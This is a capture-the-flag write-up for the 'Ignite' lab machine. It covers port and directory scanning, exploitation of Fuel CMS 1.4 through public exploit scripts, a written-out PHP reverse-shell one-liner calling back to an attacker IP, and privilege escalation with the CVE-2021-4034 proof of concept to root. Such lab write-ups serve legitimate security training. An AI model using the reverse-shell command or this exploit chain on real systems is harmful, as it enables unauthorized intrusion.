 # Ignite

Notes.

## recon

### nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 02:59:76:57:60:27 (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
```

### gobuster
```
/!ut                  (Status: 400) [Size: 1134]
/!_images             (Status: 400) [Size: 1134]
/!res                 (Status: 400) [Size: 1134]
/!images              (Status: 400) [Size: 1134]
/!                    (Status: 400) [Size: 1134]
/!_archives           (Status: 400) [Size: 1134]
/!textove_diskuse     (Status: 400) [Size: 1134]
/!backup              (Status: 400) [Size: 1134]
/.htaccess            (Status: 403) [Size: 297]
/0                    (Status: 200) [Size: 16597]
/.htpasswd            (Status: 403) [Size: 297]
/@                    (Status: 400) [Size: 1134]
/[                    (Status: 400) [Size: 1134]
/]                    (Status: 400) [Size: 1134]
/asdfjkl;             (Status: 400) [Size: 1134]
/assets               (Status: 301) [Size: 315] [--> http://10.10.167.168/assets/]
/fixed!               (Status: 400) [Size: 1134]
/home                 (Status: 200) [Size: 16597]
/index                (Status: 200) [Size: 16597]
/lost+found           (Status: 400) [Size: 1134]
/offline              (Status: 200) [Size: 70]
/plain]               (Status: 400) [Size: 1134]
/quote]               (Status: 400) [Size: 1134]
/robots.txt           (Status: 200) [Size: 30]
/server-status        (Status: 403) [Size: 301]
/sitemap_xml          (Status: 200) [Size: 399]
```


### website

Fuel CMS V 1.4

http://10.10.167.168/robots.txt
```
User-agent: *
Disallow: /fuel/
```

http://10.10.167.168/fuel/login/5a6e566c6243396b59584e6f596d3968636d513d is a login page.


## gaining access


### exploiting fuel

https://www.exploit-db.com/exploits/50477

`└─# python3 50477.py -u http://10.10.167.168`

The goal is to gain a shell on this machine. The input is cleansed however.

This will involve some trial and error.

- .php is not a banned filetype
- if words are appended to the file, they are repeated 13 times. Cannot upload in pieces.
- `Enter Command $echo "php -r '$sock=fsockopen("10.10.105.149",4242);`/bin/sh -i <&3 >&3 2>&3`;'" > hello.php` does not upload.
This seems like re-inventing the wheel...

https://github.com/AssassinUKG/fuleCMS/blob/main/fuelCMS.py opens a shell for us!


https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal to stabalize the shell.


`www-data@ubuntu:/home/www-data$ cat flag.txt `

**6470e394cbf6dab6a91682cc8585059b**

## privesc

No other user accounts.

```
Sudo version 1.8.16
```

```
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

### linpeas

https://linpeas.sh/

```
Vulnerable to CVE-2021-4034
```

```
https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation                                                     
```

```
══════════╣ Searching passwords in config PHP files
        'password' => 'mememe',     
```

### cve-2021-4034

copy https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c

`www-data@ubuntu:/tmp$ gcc -o a a.c `

`www-data@ubuntu:/tmp$ ./a`

`# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)`

**b9bbcb33e11b80be759c4e844862482d**
